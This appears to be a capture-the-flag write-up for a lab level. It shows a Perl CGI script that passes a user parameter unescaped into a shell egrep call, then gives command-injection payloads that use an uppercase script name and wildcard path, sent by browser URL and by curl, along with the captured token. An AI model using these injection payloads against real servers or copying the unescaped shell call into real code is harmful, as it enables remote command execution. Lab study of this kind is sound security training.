 Contents of level12.pl :

#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

The server on port 4646 accepts 2 parameters

The regex tr/a-z/A-Z/ transforms alpha chars to uppercase
The other regex s/\s.*// removes all space chars

to get the exploit working we have to use uppercase only => call a script named with uppercase only => use wildcard * to exploit filepath to the script

/!\ give execution permission for the script with ```chmod +x /tmp/EXPLOIT.SH```

in the browser : http://192.168.56.2:4646/?x=$(/*/EXPLOIT.SH)
or with curl : curl localhost:4646?x='`/*/EXPLOIT`'

we get the token : g1qKMiRpXf53AWhDaU7FEkczr



